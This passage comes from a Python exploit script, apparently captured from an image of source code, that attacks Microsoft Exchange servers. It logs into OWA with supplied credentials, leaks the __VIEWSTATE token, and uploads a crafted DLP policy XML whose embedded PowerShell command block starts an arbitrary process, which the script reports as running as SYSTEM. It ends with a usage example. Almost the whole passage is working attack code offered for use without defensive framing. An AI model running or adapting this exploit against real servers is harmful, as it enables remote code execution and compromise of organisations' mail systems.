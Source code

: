```
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <!\[CDATA\[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.File;$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() \]\]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>""" % c
def trigger\_rce(t, s, vs, cmd):
    f = {
        '\_\_VIEWSTATE': (None, vs),
        'ctl00$ResultPanePlaceHolder$senderBtn': (None, "ResultPanePlaceHolder\_ButtonsPanel\_btnNext"),
        'ctl00$ResultPanePlaceHolder$contentContainer$name': (None, random\_string()),
        'ctl00$ResultPanePlaceHolder$contentContainer$upldCtrl': ("dlprce.xml", get\_xml(cmd)),
    }
    r = s.post("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, files=f, verify=False)
    assert r.status\_code == 200, "(-) failed to trigger rce!"
def leak\_viewstate(t, s):
    r = s.get("https://%s/ecp/DLPPolicy/ManagePolicyFromISV.aspx" % t, verify=False)
    match = re.search("<input type=\\"hidden\\" name=\\"\_\_VIEWSTATE\\" id=\\"\_\_VIEWSTATE\\" value=\\"(.\*)\\" />", r.text)
    assert match != None, "(-) couldn't leak the \_\_viewstate!"
    return match.group(1)
def log\_in(t, usr, pwd):
    s = requests.Session()
    d = {
        "destination" : "https://%s/owa" % t,
        "flags" : "",
        "username" : usr,
        "password" : pwd
    }
    s.post("https://%s/owa/auth.owa" % t, data=d, verify=False)
    assert s.cookies.get(name='X-OWA-CANARY') != None, "(-) couldn't leak the csrf canary!"
    return s
def main(t, usr, pwd, cmd):
    s = log\_in(t, usr, pwd)
    print("(+) logged in as %s" % usr)
    vs = leak\_viewstate(t, s)
    print("(+) found the \_\_viewstate: %s" % vs)
    trigger\_rce(t, s, vs, cmd)
    print("(+) executed %s as SYSTEM!" % cmd)
if \_\_name\_\_ == '\_\_main\_\_':
    if len(sys.argv) != 4:
        print("(+) usage: %s <target> <user:pass> <cmd>" % sys.argv\[0\])
        print("(+) eg: %s 192.168.75.142 harrym@exchangedemo.com:user123### mspaint" % sys.argv\[0\])
        sys.exit(-1)
    trgt = sys.argv\[1\]
    assert ":" in sys.argv\[2\], "(-) you need a user and password!"
    usr = sys.argv\[2\].split(":")\[0\]
    pwd = sys.argv\[2\].split(":")\[1\]
    cmd = sys.argv\[3\]
    main(trgt, usr, pwd, cmd)

```
